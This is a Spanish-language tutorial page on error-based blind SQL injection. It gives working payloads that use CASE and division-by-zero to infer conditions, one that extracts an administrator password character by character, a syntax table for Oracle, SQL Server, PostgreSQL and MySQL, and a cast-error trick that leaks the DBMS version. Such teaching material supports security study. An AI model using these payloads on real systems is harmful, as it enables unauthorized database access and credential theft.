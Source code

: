 ```yaml
---
layout: default
title: 4.2 Basadas en error
permalink: /injection_types/blind/error_based_type
nav_order: 2
parent: 4. Inyecciones ciegas
has_children: true
---
```


# Inyecciones ciegas basadas en error

La detección se complica. La aplicación no se comporta de manera diferente agregando condiciones extra que se esperaría que puedan terminar en una consulta SQL. En esta situación, es posible **inducir a la aplicación a devolver respuestas condicionales activando errores SQL condicionalmente**, dependiendo de una condición inyectada. Esto implica modificar la consulta para que **cause un error en la base de datos** si la condición es verdadera, pero no si la condición es falsa (o al revés). Un error del DBMS no manejado por la aplicación causará alguna diferencia en la respuesta (como un mensaje de error), lo que permite inferir la veracidad de la condición inyectada.

Con el mismo ejemplo de consulta que en [4.1 Con respuestas condicionales](/injection_types/blind/conditional_type), se envían estos dos *payloads* de inyección: 

```  
...Tj4' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
...Tj4' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```  

Ambos usan una sentencia `CASE` para **probar una condición y devolver una expresión diferente** dependiendo de si la misma es verdadera. Con la primera entrada, el `CASE` evalúa a `'a'`, que no causa ningún error, pero en la segunda entrada, se evalúa la ecuación `1/0`, que causa un error (*Zero división error*). **Suponiendo que el error causa una diferencia** en la respuesta HTTP obtenida, podemos utilizar las diferencias de los códigos de respuesta HTTP para identificar si la condición inyectada es verdadera **y a partir de allí automatizar la inyección**.

Usando esta técnica se pueden extraer datos de la manera descrita anteriormente:

```  
...Tj4' AND (SELECT CASE WHEN 
    (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') 
    THEN 1/0 ELSE 'a' END FROM Users) = 'a
```  

Información básica sobre variantes de sintaxis para generar errores condicionales en distintos DBMS:

| Oracle | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual` |
| Microsoft | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END` |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)` |
| MySQL | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

La sintaxis no siempre va a ser tan directa de aplicar y la interpretación de algunos paréntesis o condiciones de error pueden cambiar para un mismo DBMS en diferentes versiones.

## Hacer ver al ciego

En una inyección ciega, extraer contenido por deducciones y errores es parecido a decirle al oído del ciego cómo se ve el resultado. Pero mejor es hacerlo ver.

Existen técnicas que permiten devolver **el resultado de la consulta en el propio error**. La más simple es **provocar errores de conversión o *cast*** que indiquen que el resultado parcial, ya procesado por el DBMS, no es convertible. Por ejemplo, la siguiente línea intenta convertir a númerico un *string* complejo que debería tener la versión del DBMS:

``` sql 
1=convert(int,@@version)--
```

Aplicado a una de las consultas de ejemplo anteriores:

```sql 
SELECT TrackingId FROM TrackedUsers WHERE 
    TrackingId = 'PeniarolONacionalTantoMeDa' AND 1=convert(int,@@version)--'
```

Puede generar el siguiente error como respuesta:

```
Error: Warning: mssql_query() message: Conversion failed when converting the nvarchar value 
"Microsoft SQL Server 2012 (SP1) - 110.0.3156.0 (X64) Copyright (c) Microsoft Corporation 
Standard Edition (64-bit) on Windows NT 6.2 X64 (Build 9200: ) (Hypervisor)" to data type 
int. (severity 16 in D:\something\web\STD...\id.php on line...
```

Si esto sucede, no hay más ceguera. Es cuestión de extraer el resultado directamente como en una inyección clásica con datos visbles.